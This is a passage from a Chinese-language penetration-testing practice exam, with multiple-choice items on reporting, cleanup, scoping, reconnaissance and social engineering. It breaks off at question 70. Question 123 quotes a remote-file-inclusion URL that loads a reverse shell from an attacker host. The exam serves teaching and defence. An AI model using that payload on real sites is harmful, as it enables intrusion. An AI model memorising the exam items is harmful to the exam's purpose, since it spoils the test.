1. 在所有接入点上使用定向天线。
2. 重新配置 Wi-Fi 设备以使用 `WEP` 加密。
3. 升级到支持现代加密方法的较新 Wi-Fi 设备。
4. 在无线网络上禁用 `DHCP`。

### 106. 你刚刚为客户完成了一次渗透测试。在测试期间，你通过冒充 IT 供应商的技术人员获得了服务器机房的访问权限。你能够将笔记本电脑插入组织 Cisco 路由器上的串行连接器并访问其配置。在最终报告中，你应该建议客户采取什么措施来补救此问题？（选择两项。）
1. 在有线网络上禁用 `DHCP`。
2. 在路由器上运行 `enable secret` 命令。
3. 实施审查供应商代表的程序。
4. 在路由器上实施 MAC 地址过滤。

### 107. 在为客户进行渗透测试时，你希望确保后续清理过程顺利进行。你应该怎么做来实现这一点？
1. 在进行测试时仔细记录你所做的一切。
2. 在关键系统中创建后门，以便以后可以轻松访问它们。
3. 创建所有系统和设备的镜像，以便可以将其恢复到测试前的状态。
4. 删除由你的利用程序创建的任何日志条目。

### 108. 渗透测试完成后，你正在进行后续清理过程。你应该怎么做？（选择两项。）
1. 删除测试期间创建的任何 shell 会话。
2. 对客户隐瞒测试期间所做的一切。
3. 记录清理期间所做的一切。
4. 对测试后的清理工作隐瞒一切。

### 109. 渗透测试完成后，你正在进行后续清理过程。你应该怎么做？
1. 要求客户签署协议，不披露测试期间使用的技术。
2. 删除测试期间使用的任何测试人员创建的凭据。


# 渗透测试问题

3. 写出内部管理员在测试期间犯的错误的批评。
4. 对客户隐瞒你在测试期间所做的一切。

## 110. 你在渗透测试完成后进行事后参与清理流程。你应该怎么做？
1. 删除你在测试期间安装的任何工具或实用程序。
2. 将所有管理凭据重置为默认值。
3. 将所有防火墙重置为默认配置。
4. 使用默认设置重新安装所有网络服务。

## 111. 渗透测试完成后你与客户会面。在会议期间，你向客户提供与测试期间发现的问题相关的详细证据。这个过程叫什么？
1. 发现的证明
2. 经验教训
3. 客户接受
4. 数据规范化

## 112. 渗透测试完成后你与客户会面。会议结束时，你要求客户书面同意你已根据与客户最初签署的合同履行了你的责任。这个过程叫什么？
1. 发现的证明
2. 经验教训
3. 客户接受
4. 跟进行动

## 113. 完成渗透测试数月后，你的客户打电话要求你回来重新测试他们的网络，以验证最初发现的问题是否已得到妥善修复。这个过程叫什么？
1. 发现的证明
2. 经验教训
3. 跟进行动
4. 数据规范化

## 114. 为客户完成渗透测试后，你与渗透测试团队会面以回顾经验教训。在这次会议中你应该做什么？（选择两项。）
1. 记录测试期间有效的技术利用。
2. 讨论客户所在地附近最好的就餐地点。
3. 识别测试期间无效的利用。
4. 回顾团队即将到来的假日庆祝计划。

## 115. 一份详细的渗透报告被提供给一名安全分析师。渗透针对目标组织的 DMZ 环境进行。报告中发现通用漏洞评分系统（CVSS）的基础分数为 1.0。利用此漏洞需要哪种难度级别？
1. 非常困难，因为边界系统通常位于防火墙后面
2. 有一定难度，因为利用它需要强大的处理能力
3. 微不足道，因为利用这些发现所需的工作量很少
4. 不可能，因为外部主机已加固以防止攻击

## 116. 在渗透测试过程中，测试人员需要与客户沟通。以下哪种情况会导致这种沟通发生？（选择两项。）
1. 尝试测试后，系统变得不可用。
2. 系统显示先前未经授权访问的迹象。
3. 系统显示缺乏完全加固。
4. 测试人员在系统上发现了可单独识别的数据。
5. 测试人员发现了超出范围的系统上的内容。

## 117. 渗透测试人员为客户执行了安全评估。报告列出了总共九个漏洞，其中四个被确定为严重。客户没有预算立即纠正所有漏洞。鉴于这些情况，测试人员应建议客户的最佳选择是什么？
1. 对关键漏洞应用简单的补偿控制以最大程度降低风险，然后重新确定修复的优先级。
2. 识别可以最快修复的漏洞并首先处理它们。
3. 首先实施影响最小的关键漏洞修复，然后处理其他关键漏洞。
4. 首先纠正最关键的漏洞，即使这意味着修复其他漏洞可能需要更长时间。

## 118. 渗透测试人员为客户执行了安全评估。观察到公共 Web 服务器上正在监听多个高编号端口。客户表示他们仅使用端口 443 用于应用程序。测试人员应向客户推荐什么？
1. 禁用不需要的服务。
2. 将端口 443 过滤到特定 IP 地址。
3. 实施 Web 应用防火墙。
4. 将应用程序迁移到另一个端口。

## 119. 如果渗透测试人员能够将 SQL 注入命令输入到文本框并访问数据库中存储的信息，那么向客户提供的最佳缓解建议是什么？
1. 实施输入规范化。
2. 安装基于主机的入侵检测。
3. 执行系统加固。
4. 随机化用于登录的凭据。

## 120. 渗透测试人员正在进行测试，在入侵一台工作站后，测试人员能够在整个域中横向移动，几乎没有阻碍。应向客户报告中推荐哪些迁移策略？（选择三项。）
1. 应用额外的网络访问控制。
2. 对所有登录，要求多因素身份验证。
3. 对每台机器，随机化本地管理员凭据。
4. 对于本地管理员，禁用远程登录。
5. 提高最小密码复杂性要求。
6. 将每个主机放入其自己的虚拟局域网（VLAN）。
7. 在每台工作站上启用全盘加密。

## 121. 渗透测试人员正在撰写一份报告，概述对运营的总体风险水平。测试人员应在报告的哪个部分包含此信息？
1. 附录
2. 执行摘要
3. 主体
4. 技术摘要

## 122. 在对客户核心服务器进行渗透测试期间，测试人员发现了一个关键漏洞。测试人员接下来应该做什么？
1. 完成测试，完成所有发现，然后提交给客户。
2. 立即向客户发出警报并提供发现的详细信息。
3. 在目标机器上禁用受影响服务的网络端口。
4. 将目标机器离线，使其无法被利用。

## 123. 安全分析师正在监控 Web 应用防火墙（WAF）日志，并发现以下 URL 遭受了成功攻击：[`https://sample.com/index.php?Phone=http://iattackedyou.com/stuffhappens/revshell.php`](https://sample.com/index.php?Phone=http://iattackedyou.com/stuffhappens/revshell.php)。应采取哪些补救措施以防止此类攻击再次发生？
1. 阻止 URL 重定向。
2. 对参数进行双重 URL 编码。
3. 从应用程序停止外部调用。
4. 实施黑名单。

## 124. 通过使用钓鱼，渗透测试人员能够从 IT 部门成员处获取初始 VPN 用户域凭据。然后测试人员通过 VPN 获取哈希并通过使用字典攻击轻松破解它们。测试人员应向客户推荐以下哪些补救措施？（选择三项。）
1. 建议提高密码复杂性要求。
2. 建议为远程访问实施双因素身份验证。
3. 建议安装入侵防御系统。
4. 建议安装安全信息和事件监控解决方案。
5. 建议防止 IT 部门成员以管理员身份交互式登录。


### 6. 建议要求所有员工接受安全意识培训。
### 7. 建议升级 VPN 解决方案所使用的密码套件。

### 125. 在对面向互联网的应用程序完成测试后，渗透测试人员注意到该应用程序仅使用基本身份验证。测试人员应向客户推荐的最佳补救策略是什么？
1. 启用 HTTP 严格传输安全 (HSTS)
2. 启用安全 Cookie 标志
3. 加密通信通道
4. 对无效用户输入进行清理

### 126. 客户测试完成后，测试人员正在为执行摘要对发现和建议进行优先级排序。以下哪项考虑对客户最有益？
1. 补丁和其他补救措施的可用性
2. 利用已识别漏洞的难度等级
3. 客户组织的风险承受能力
4. 完成每个步骤所需的时间

### 127. 某组织 IT 部门的一名初级技术人员对企业 Web 应用程序进行渗透测试。在测试期间，技术人员发现应用程序可以泄露包含所有用户账户和密码信息的 SQL 表。技术人员应如何通知管理层？
1. 技术人员应使用这些信息连接到 SQL 服务器并更改几个非关键账户的密码，以向管理层证明概念。
2. 技术人员应使用包含建议和屏幕截图的执行摘要记录发现结果以提供给管理层。
3. 技术人员应通知开发团队该发现并建议在 Web 应用程序的 SQL 查询字符串上强制执行输入验证。
4. 技术人员应要求管理层创建建议书请求 (RFP) 以开始与专业渗透测试公司进行正式合作。

### 128. 您是一名安全分析师，正在审查最近针对内联网服务执行的内部漏洞扫描结果。扫描报告显示存在关键漏洞。报告显示如下：
标题：Web 服务器中的远程命令执行漏洞
评级：严重 (CVSS 10.0)
威胁行为者：Web 服务器的任何远程用户
置信度：确定
建议：应用厂商补丁
您首先应该做什么？
1. 应用风险评级并评估其对组织的影响。
2. 利用服务器以确定扫描是否指示了误报。
3. 向高级管理层通报该漏洞。
4. 安排关键的非周期性补丁。

### 129. 您是一名渗透测试人员，在渗透测试后进行清理时，发现客户没有必要的数据擦除工具。然后将所需工具分发给需要的技术人员。您应在哪个阶段重新审视此问题？
1. 在经验教训阶段
2. 在缓解阶段
3. 在准备阶段
4. 在报告阶段

### 130. 您正在与客户讨论多因素身份验证。客户要求您举例说明多因素身份验证是什么。您会告诉客户什么才符合多因素身份验证的要求？
1. 使用生物识别指纹和语音识别
2. 使用智能卡和 PIN 码
3. 使用视网膜扫描和语音识别
4. 使用用户名、PIN 码和员工 ID 号

### 131. 您是一名渗透测试人员，客户要求您测试多个 Web 服务器的安全性。您能够通过利用与 DNS、FTP、IMAP、POP、SMTP 和 Telnet 使用相关的漏洞，在多个服务器上获得 root/管理员访问权限。您应向客户推荐什么措施以更好地保护其 Web 服务器？
1. 他们应禁用任何不必要的服务。
2. 他们应增加应用程序事件日志记录。
3. 他们应使用蜜罐。
4. 他们应使用传输层安全 (TLS)。

### 132. 您已进行渗透测试并正在审查结果。您注意到组织在所有系统上使用相同的本地管理员密码。您可以使用什么工具来帮助解决此问题？
1. 本地管理员密码解决方案 (LAPS)
2. 有限管理员密码助手 (LAPA)
3. Nessus
4. Metasploit

### 133. 您是一名安全分析师，刚刚完成了一次渗透测试。撰写执行摘要时什么项目是不合适的？
1. 对所有发现和漏洞的描述。
2. 对所有发现漏洞的风险陈述。
3. 它应使用通俗语言编写。
4. 包含与测试相关的所有技术细节。

### 134. 您是一名渗透测试人员，正在进行参与后清理。参与后清理阶段执行哪些活动？（选择三项。）
1. 所有漏洞的修复
2. 移除使用的任何工具
3. 移除 shell
4. 移除测试人员创建的凭据

### 135. 您和同事正在讨论一个组织实施电子邮件内容过滤的场景，以阻止看起来来自内部来源但未经适当身份验证的传入消息。组织还可能过滤掉包含高风险关键字或似乎来自已知恶意来源的任何消息。这将属于哪种常见的补救活动类别？
1. 测量
2. 人员
3. 流程
4. 技术

### 136. 您和同事正在讨论不同的多因素身份验证类别。一个例子可能是员工使用带有身份验证令牌的钥匙扣，该令牌生成一次性密码，必须在登录时使用。此场景属于哪种多因素身份验证类别？
1. 你所是的
2. 你所拥有的
3. 你所知道的
4. 你所需要的

# 第 6 章
## 练习考试 1

### 1. 您是一名渗透测试人员，您和同事正在讨论在进行渗透测试时保持任何发现的保密性为何重要。为什么应保密发现？
1. 它们可以帮助攻击者入侵网络。
2. 它们可能包含公司知识产权。
3. 它们是包含特权信息的法律文件。
4. 如果发现被公开，可能会导致消费者不满。

### 2. 您是一名渗透测试人员，正在为新客户即将进行的测试制定参与规则 (ROE)。您需要在 ROE 中包含哪些项目？（选择两项。）
1. 测试的时间表
2. 对任何法律的审查，尤其是管理客户的法律
3. 之前测试过的类似公司的列表
4. 客户竞争对手的列表
5. 客户网络的详细地图

### 3. 您是一名渗透测试人员，正在为新客户即将进行的测试制定参与规则 (ROE)。客户已请求白盒评估。您已告知客户：
* 客户在测试期间不能使用屏蔽或列入黑名单。
* 客户必须为您提供对网络的内部访问权限。
* 客户必须为您提供详细的网络地图。
* 客户必须为您提供身份验证凭据。
* 测试期间不允许使用软件即服务 (SaaS) 服务提供商提供的应用程序。


# 渗透测试问题

## 在制定 ROE 时，此场景中你做错了什么？
1. 客户应被允许使用一切必要手段为自己辩护。
2. 拥有有关内部网络的详细信息会削弱测试结果。
3. 所有网络资源都应接受测试，包括任何基于云的资源。
4. 没有。ROE 已被正确定义。

## 4. 你是一名渗透测试人员，你正在为即将为新客户进行的渗透测试制定条款。以下哪种是获得合法许可进行测试的适当方法？
1. 发送电子邮件询问高级管理人员成员是否允许开始测试。
2. 拨打电话并询问 IT 员工成员是否允许开始测试。
3. 请 IT 员工成员签署一份授予你开始测试许可的文件。
4. 请高级管理人员成员签署一份授予你开始测试许可的文件。

## 5. 你是一名渗透测试人员，你正在为新客户即将进行的测试制定交战规则（ROE）。客户要求进行白盒评估。这将是一项内部测试，不涉及第三方。以下哪些资源会被视为此测试场景的范围？（选择两项。）
1. Active Directory 用户
2. Google Docs
3. Microsoft Azure Web 服务器
4. Microsoft Office 365 云应用程序
5. Group Policy 中定义的密码策略

## 6. 你是一名渗透测试人员，你正在为新客户即将进行的测试工作。客户要求进行白盒评估。测试的目标是查看你是否能够访问存储在内部数据库服务器上的机密客户数据。你已向客户索取架构图。客户应向你提供什么信息？（选择两项。）
1. 设施地图
2. 网络图
3. 简单对象访问协议（SOAP）文档
4. Swagger 文档

## 7. 你和同事正在讨论消息协议。一种协议定义了 Web 应用程序之间如何交换结构化信息，并且是从 WSDL 文件创建的。讨论的是哪种消息协议？
1. 简单对象访问协议（SOAP）
2. Swagger
3. Web 应用描述语言（WADL）
4. XML 模式定义（XSD）

## 8. 你是一名渗透测试人员，你准备为客户进行应用程序编程接口（API）测试。在为这种测试做准备时，以下哪项最有利？
1. Nikto
2. Swagger
3. Web 应用归档（WAR）
4. Web 应用攻击与审计框架（W3AF）

## 9. 你是一名渗透测试人员，你正在为新客户制定外部黑盒渗透测试范围。你创建了一个极具攻击性的漏洞扫描器。在之前使用该扫描器的测试中，扫描器使客户网站宕机超过 40 分钟。但通过扫描，客户能够了解到多个漏洞并纠正了问题。在使用此扫描器对当前客户进行扫描之前，你首先应该做什么？
1. 不要在即将进行的评估中使用漏洞扫描器。
2. 在即将进行的评估中使用漏洞扫描器。
3. 通过进行影响分析来确定新客户对影响的容忍度。
4. 修改漏洞扫描器使其不那么激进。

## 10. 你是一名渗透测试人员，你正在与同事讨论 CIA 三元组模型。你正在讨论单词 *保密性* 的含义。在 CIA 三元组模型的上下文中，哪种说法最能描述 *保密性* 的含义？
1. 防止未经授权访问信息或系统
2. 防止对信息或系统进行未经授权的修改
3. 确保信息和系统的合法使用仍然可行
4. 防止对信息或系统的合法访问

## 11. 你是一名渗透测试人员，你正在为新客户规划一次参与。你认为在开始测试之前最需要了解以下哪些事项？（选择两项。）
1. 架构图
2. 公司政策
3. 目标/目的
4. 报告的存储时间
5. 对影响的容忍度

## 12. 你是一名渗透测试人员，你目前正在测试中途，客户要求你添加更多地址。以下哪项定义了你可以遵循的目标列表？
1. 最终用户许可协议
2. 主服务协议（MSA）
3. 交战规则（ROE）
4. 工作说明书（SOW）

## 13. 你是一名渗透测试人员，你准备为新客户进行评估。以下哪份文件精确定义了测试期间将进行的内容？
1. 主服务协议（MSA）
2. 不披露协议（NDA）
3. 测试人员向客户开具的详细发票
4. 工作说明书（SOW）

## 14. 你是一名渗透测试人员，你准备为新客户运行测试。以下哪项陈述会来自新客户的公司政策？
1. 企业系统必须使用 MD5 哈希算法存储密码。
2. 员工密码必须至少包含八个字符，其中一个为字母数字。
3. 可以联系帮助台进行密码重置的电话号码。
4. 为访问企业资产，员工必须使用强密码。

## 15. 你是一名渗透测试人员，你被要求测试一个组织，该组织使用一种将主机与其公钥关联的身份验证方法。组织使用的是哪种身份验证技术？
1. 证书锁定
2. 自签名服务器身份验证
3. SSL 握手
4. X.509 绕过

## 16. 你是一名渗透测试人员，你已被新客户聘请进行渗透测试。客户希望你测试其专有设计文档。测试的目标是绕过安全措施并未经授权访问这些文档。你将进行哪种类型的评估？
1. 基于合规性的评估
2. 基于目标的评估
3. 基于目标的评估
4. 红队评估

## 17. 你是一名渗透测试人员，你被客户要求冒充一名最近被解雇的帮助台技术人员。最能描述威胁行为者能力的说法是什么？
1. 高级持续性威胁（APT）
2. 黑客活动分子
3. 有组织犯罪
4. 脚本小子

## 18. 你是一名渗透测试人员，你听说一名攻击者对邻国的一家政府承包商发动了攻击。攻击的目标是通过承包商进入对方国家政府网络基础设施。攻击者得到其本国政府的支持。此场景中描述的是哪种类型的威胁行为者？
1. 黑客活动分子
2. 国家行为者
3. 有组织犯罪
4. 脚本小子

## 19. 你是一名渗透测试人员，你被要求为新客户进行渗透测试。客户希望评估其对具有普通员工网络权限的恶意内部人员的脆弱性。你应该执行哪种类型的测试？
1. 黑盒测试
2. 灰盒测试
3. 红盒测试
4. 白盒测试


# 渗透测试评估问题

## 20. 你是一名渗透测试员，已被聘请测试新客户设施的物理安全。你被允许使用任何方法尝试渗透其设施，只要不损坏其财产或伤害任何人。客户要求你进行哪种类型的评估？
1. 基于合规的评估
2. 基于目标的评估
3. 并购前评估
4. 供应链评估

## 21. 你是一名渗透测试员，正在与新客户一起确定即将进行的渗透测试的考虑因素。你询问客户是否愿意接受渗透测试可能导致其网络中断的事实。客户表示他们理解。在此场景中，你们刚刚讨论了什么流程？
1. 尽职调查
2. 风险接受
3. 安全例外
4. 威胁建模

## 22. 你是一名渗透测试员，受命尝试渗透客户的设施。你注意到员工留开的一扇未锁的侧门。你进入了设施。客户希望防止这种情况再次发生，于是拆除了门并砌上墙。在此场景中，客户采取了哪种风险响应？
1. 接受
2. 规避
3. 应急
4. 利用

## 23. 你是一名渗透测试员，客户最近向你表达了担忧，称大量公司最近被远程攻击者入侵，这些攻击者寻找商业机密。最能描述寻找商业机密的对手类型的是什么？
1. 高级持续性威胁（APT）行为者
2. 黑客行动主义团体
3. 内部威胁
4. 脚本小子

## 24. 你是一名渗透测试员，正在为新客户运行渗透测试。你使用运行在个人电脑上的渗透测试工具包对各种网络设备进行扫描。突然网络中断。可能发生了什么？
1. 你的扫描导致边界路由器崩溃。
2. 你的扫描导致网络主干上的交换机崩溃。
3. 你的计算机的 IP 地址被加入白名单。
4. 你的计算机的 IP 地址被加入黑名单。

## 25. 你是一名渗透测试员，正在与新客户讨论即将进行的渗透测试。客户要求你对他们的网络进行“水晶盒”测试。客户要求你执行哪种类型的渗透测试？
1. 黑盒测试
2. 基于目标的测试
3. 灰盒测试
4. 白盒测试

## 26. 你是一名渗透测试员，计划对新客户使用黑盒渗透测试。使用这种策略，你会获得什么？
1. 特权凭据
2. 网络图
3. 源代码
4. 什么都没有，因为你必须自行发现

## 27. 你是一名渗透测试员，计划为新客户进行渗透测试。你计划设置安全评估。以下哪项对评估预算有重大影响？
1. 合规要求
2. 安排
3. 范围界定
4. 目标风险

## 28. 你是一名渗透测试员，正在进行专门针对单个 Web 应用程序的渗透测试。你发现 Web 服务器还包含目标位置其他服务器的密码列表。你通知了客户。客户随后要求你验证这些服务器。一旦你继续使用这些密码测试其他服务器，发生了什么？
1. 威胁狩猎
2. 枢轴
3. 范围蔓延
4. 目标扩展

## 29. 你和同事正在讨论威胁行为者。你们正在讨论一名攻击者因不满新通过的法律而攻击政府机构。正在讨论的是哪种类型的威胁行为者？
1. 脚本小子
2. 黑客行动主义者
3. 有组织犯罪
4. 国家行为者

## 30. 你是一名渗透测试员，受邀为客户执行渗透测试。你需要一份文件来设定贵组织之间的总体条款。这也将用于贵组织之间的未来工作，因为你计划建立支持协议。这份文件叫什么？
1. 竞业禁止协议
2. 不披露协议（NDA）
3. 主服务协议（MSA）
4. 工作说明书（SOW）

## 31. 你和同事正在讨论哪部法律要求医疗相关组织必须遵守某些安全标准。这部法律叫什么？
1. 联邦信息处理标准（FIPS）出版物 140-2（FIPS PUB 140-2）
2. 1999 年格雷姆-里奇-比利法案（GLBA）
3. 1996 年健康保险可携性与责任法案（HIPPA）
4. 2002 年萨班斯-奥克斯利法案（SARBOX）

## 32. 你和同事正在讨论哪部法律规范金融机构如何处理其客户的个人信息的。这部法律叫什么？
1. 联邦信息处理标准（FIPS）出版物 140-2（FIPS PUB 140-2）
2. 1999 年格雷姆-里奇-比利法案（GLBA）
3. 1996 年健康保险可携性与责任法案（HIPPA）
4. 2002 年萨班斯-奥克斯利法案（SARBOX）

## 33. 你是一名渗透测试员，正在尝试在不影响系统或其数据的情况下识别客户 Web 应用程序中的漏洞。最能描述正在执行的漏洞扫描类型的是什么？
1. 积极扫描
2. 合规扫描
3. 无凭据扫描
4. 被动扫描

## 34. 你是一名渗透测试员，正在进行客户网络的渗透测试。你正在收集信息，但并未主动扫描网络。你收集的是哪种类型的信息？
1. 背景调查
2. 商业记录搜索
3. 情报收集
4. 开源情报（OSINT）

## 35. 你和同事正在讨论开源情报（OSINT）收集工具。以下哪种工具不是 OSINT 收集工具？
1. 使用收集档案指纹识别组织（FOCA）
2. Nessus
3. Nslookup
4. Whois

## 36. 你和同事正在讨论开源情报（OSINT），讨论转向漏洞和其他安全缺陷。有许多组织致力于集中这些知识。其中一个组织处理广泛的网络安全活动。它通过提供警报以及事件处理和规避指南，专注于安全漏洞和拒绝服务（DoS）事件。讨论的是哪个组织？
1. 通用攻击模式枚举与分类（CAPEC）
2. 计算机应急响应团队（CERT）
3. 通用弱点枚举（CWE）
4. 国家标准与技术研究院（NIST）

## 37. 你和同事正在讨论开源情报（OSINT），讨论转向漏洞和其他安全缺陷。有许多组织致力于集中这些知识。其中一个组织使用一个列表作为资源，旨在帮助识别和记录攻击及攻击模式。它允许用户按机制搜索攻击，然后使用各种属性和先决条件分解每种攻击。讨论的是哪个组织？
1. 通用攻击模式枚举与分类（CAPEC）
2. 计算机应急响应团队（CERT）
3. 通用弱点枚举（CWE）
4. 国家标准与技术研究院（NIST）


# 渗透测试问题

### 38. 你是一名渗透测试人员，正在为一家大型组织进行黑盒渗透测试。你想要探测客户的 Web 服务器 IP 地址。你想查看可能与其关联的信息，例如它使用什么密码套件。完成此任务应使用什么工具？
1. `Censys`
2. `Nslookup`
3. `Maltego`
4. `Shodan`

### 39. 你是一名渗透测试人员，正在进行黑盒渗透测试的信息收集阶段。你想窃听从客户设施发出的射频发射并尝试捕获其无线网络的数据。你停在客户的停车场。你可以在 Linux 笔记本上使用什么实用程序来破解客户在其无线网络上使用的加密？
1. `Aircrack-ng`
2. `nmap`
3. `tcpdump`
4. `Wireshark`

### 40. 你和同事正在讨论一个由美国政府国家科学技术研究所（NIST）维护的开源研究来源。该来源提供了当前安全性的摘要。这个政府存储库叫什么名字？
1. 通用攻击模式枚举和分类（`CAPEC`）
2. 计算机应急响应团队（`CERT`）
3. 通用漏洞和暴露（`CVE`）
4. 国家漏洞数据库（`NVD`）

### 41. 你是一名渗透测试人员，受聘为新客户执行黑盒渗透测试。评估的哪个阶段最可能花费最长时间完成？
1. 攻击和利用阶段
2. 信息收集和漏洞识别阶段
3. 规划和范围界定阶段
4. 报告和结果沟通阶段

### 42. 你是一名渗透测试人员，受聘为新客户执行黑盒渗透测试。你想找出谁拥有客户的域名。可以使用什么工具来查找此信息？
1. `Nslookup`
2. `Maltego`
3. `Shodan`
4. `Whois`

### 43. 你是一名渗透测试人员，受聘确定客户的服务器场是否符合公司的软件基线。你将进行远程扫描。为验证合规性应执行什么类型的扫描？
1. 凭据扫描
2. 发现扫描
3. 全面扫描
4. 隐蔽扫描

### 44. 你是一名渗透测试人员，正在配置你的漏洞管理解决方案以对客户网络上的服务器执行凭据扫描。你应获得什么类型的账户？
1. 域管理员账户
2. 本地管理员账户
3. 域访客账户
4. 只读账户

### 45. 你是一名渗透测试人员，客户要求你对其 Web 应用程序进行代码审查。你将执行什么类型的分析？
1. 动态代码分析
2. 模糊测试
3. 故障注入
4. 静态代码分析

### 46. 你是一名渗透测试人员，并且可以完全访问域控制器。你想发现过去 30 天未活跃的任何用户账户。应使用什么命令？
1. `dsrm -users "DN=client.com; OU=hq CN=users"`
2. `dsquery user -inactive 4`
3. `dsquery -o -rdn -limit 30`
4. `dsuser -name -account -limit 3`

### 47. 你是一名渗透测试人员，正在与客户讨论测试参与协议的属性。以下哪一项将对客户在高峰负载期间的生产系统观察和测试产生最大影响？
1. 创建客户使用的关键生产系统的范围
2. 与客户建立白盒测试参与
3. 让客户的管理团队对任何侵入性测试签字批准
4. 安排访问其系统的测试时间表

### 48. 你是一名渗透测试人员，刚刚完成了对客户网络的简单合规扫描。结果表明网络上存在一组资产。此信息与测试前提供的网络架构图显示的信息不同。差异最可能的原因是什么？（选择两项。）
1. 配置错误的 DHCP 服务器
2. 错误的凭据
3. 网络访问受限
4. 网络访问控制（`NAC`）
5. 存储访问

### 49. 你是一名渗透测试人员，正在对客户网络进行黑盒渗透测试。你正在收集漏洞扫描结果。什么类型的扫描将为你在测试范围内提供重要信息？
1. 合规扫描
2. 发现扫描
3. 全面扫描
4. 隐蔽扫描

### 50. 你是一名渗透测试人员，正在扫描新客户的网络。你使用的漏洞扫描器正在使用服务访问级别，以便更好地评估组织内多个资产的漏洞。正在执行什么类型的扫描？
1. 凭据扫描
2. 非侵入式扫描
3. 被动扫描
4. 权限提升扫描

### 51. 你是一名渗透测试人员，客户希望你扫描他们的系统。他们希望你尽最大努力避免被检测到。客户不希望他们的网络安全团队知道正在进行渗透测试。你将执行什么类型的扫描？
1. 合规扫描
2. 发现扫描
3. 全面扫描
4. 隐蔽扫描

### 52. 你是一名渗透测试人员，正在为新客户进行灰盒渗透测试的一部分进行侦察。你对客户的一台服务器运行漏洞扫描，发现端口 23 是开放的。这表明什么？
1. 该服务器是域名服务（`DNS`）服务器
2. 该服务器是安全 Shell（`SSH`）服务器
3. 该服务器是 Telnet 服务器
4. 该服务器是文件传输协议（`FTP`）服务器

### 53. 你是一名渗透测试人员，正在为新客户进行渗透扫描。在外部漏洞扫描期间，你发现以下结果：

| 漏洞 | 端口 |
|---|---|
| 发现多个不受支持的 Apache 版本 | 80, 443 |
| HTTPS 连接接受 SSLv3 | 443 |
| Apache 服务器启用了 Mod_rewrite | 80, 443 |
| 发现 Windows Server 主机 | 21 |

根据这些结果，应如何优先考虑攻击策略？
1. 过时的软件可能包含易受攻击的组件。
2. Web 服务器可能泄露敏感信息。
3. 正在使用弱密码管理实践。
4. 弱协议可能被拦截。

### 54. 你是一名渗透测试人员，正在为新客户进行渗透测试。经过多次尝试，你能够通过使用自己的指纹未经利用的方式通过生物识别传感器获得未经授权的访问。生物识别设备发生了什么情况才允许你获得访问权限？
1. 设备配置更偏向真负例。
2. 设备设置为故障关闭。
3. 设备复制了有效用户的指纹。
4. 设备更偏向于假阳性进行调优。

### 55. 你是一名渗透测试人员，正在为新客户进行渗透测试。你正在使用工具执行源代码审查。渗透工具错误地识别出一个漏洞。这种情况被称为什么？
1. 假阴性
2. 假阳性
3. 真阴性
4. 真阳性


### 56. 你是一名渗透测试人员，正在为新客户进行测试。你正在对漏洞扫描期间发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统（CVSS）评分为 3.6。该漏洞属于什么风险类别？
1. 低
2. 中
3. 高
4. 严重

### 57. 你是一名渗透测试人员，正在为新客户进行渗透测试。你正在使用社交媒体收集有关客户组织内不同员工的信息。你列出了员工个人资料中经常使用的流行词。此信息可用于何种类型的攻击？
1. 字典攻击
2. 漏洞链攻击
3. Karma 攻击
4. 会话劫持攻击

### 58. 你是一名渗透测试人员，正在为新客户进行渗透测试。完成最近一次测试后，你发现客户员工正在使用字典和季节性密码。控制使用常见字典单词作为密码的最佳方法是什么？
1. 配置密码过滤器。
2. 在三次错误尝试后禁用帐户。
3. 将密码长度从七个字符扩展到 14 个字符并添加特殊字符。
4. 实施密码历史记录限制。

### 59. 你是一名渗透测试人员，正在为新客户进行渗透测试。你希望为渗透活动交叉编译代码，然后计划部署它。你为什么要计划交叉编译代码？
1. 添加额外的库
2. 允许你检查源代码
3. 在多个平台上运行
4. 在不同架构上运行

### 60. 你和同事正在讨论彩虹表攻击与暴力攻击。以下哪些特征区分了彩虹表攻击与暴力攻击？（选择两项。）
1. 彩虹表攻击在攻击时减少计算周期。
2. 彩虹表必须包含预编译的哈希。
3. 彩虹表攻击不需要访问哈希密码。
4. 彩虹表攻击必须在网络上执行。
5. 彩虹表攻击绕过最大失败登录限制。

### 61. 你是一名渗透测试人员，正在为新客户进行渗透测试。你想对捕获的密码文件使用彩虹表。彩虹表如何破解密码？
1. 通过比较哈希以识别已知值
2. 通过解密密码
3. 通过反哈希密码
4. 通过对哈希进行暴力测试

### 62. 你和同事正在讨论基于消费者的物联网（IoT）。物联网设备通常比为传统台式计算机设计的系统安全性更低。为什么这个说法是正确的？
1. 设计物联网设备的开发人员对安全性的关注程度不如其他设备。
2. 管理员很难广泛应用相同的安全标准。
3. 物联网系统通常缺乏某些稳定解决方案所需的硬件能力。
4. 监管机构对物联网系统的约束通常较低。

### 63. 你是一名渗透测试人员，正在为新客户进行渗透测试。你在范围内的一个 VLAN 中发现了一个监控控制和数据采集（SCADA）设备。哪种操作最有可能对该设备造成潜在的破坏性后果？
1. 开始 DNS 缓存中毒攻击
2. 开始 Nessus 漏洞扫描
3. 开始 SMB 利用
4. 开始 SNMP 密码暴力破解攻击

### 64. 你和同事正在讨论常用的特殊网络设备。以下哪一项不是用于控制制造设备和环境系统的常用特殊网络设备？
1. 工业控制系统（ICS）
2. 可编程逻辑控制器（PLC）
3. 实时操作系统（RTOS）
4. 监控控制和数据采集（SCADA）

### 65. 你和同事正在讨论社会工程技术。一种技术涉及使用恐吓质问员工以收集信息。这种社会工程技术叫什么？
1. 冒充
2. 审问
3. 钓鱼
4. 短信钓鱼

### 66. 财务部门的 Sue 收到公司总裁的电子邮件，称需要向新供应商发放电汇。然而，Sue 和总裁都不认识这家新供应商。总裁声称他从未发送过请求转账的电子邮件。攻击者试图使用哪种类型的动机技巧？
1. 权威原则
2. 恐惧原则
3. 相似原则
4. 稀缺原则
5. 社会认同原则

### 67. 你的帮助台团队的一名成员接到一个自称是员工的个人的电话。此人请求帮助解锁已被锁定的帐户。帮助台成员在授予访问权限前要求身份证明。来电者试图进行什么类型的攻击？
1. 冒充
2. 审问
3. 钓鱼
4. 肩窥

### 68. 渗透测试人员使用 SET 制作了公司云托管网络邮件门户的副本，然后发送电子邮件试图获取总裁的登录凭据。这是哪种类型攻击的例子？
1. 诱导攻击
2. 冒充攻击
3. 精准钓鱼攻击
4. 捕鲸攻击

### 69. 你的组织的总裁报告说，他收到了大量来自自称帮助台部门人员的电话。此人要求总裁验证他的网络身份验证凭据，因为他的计算机正在网络中广播。这名个人试图进行什么类型的攻击？
1. 冒充
2. 审问
3. 语音钓鱼
4. 捕鲸

### 70. 你是一名渗透测试人员，正在为新客户进行测试。你成功获得了对笔记本电脑的访问权限。下一步应采取什么措施从笔记本电脑获取凭据？
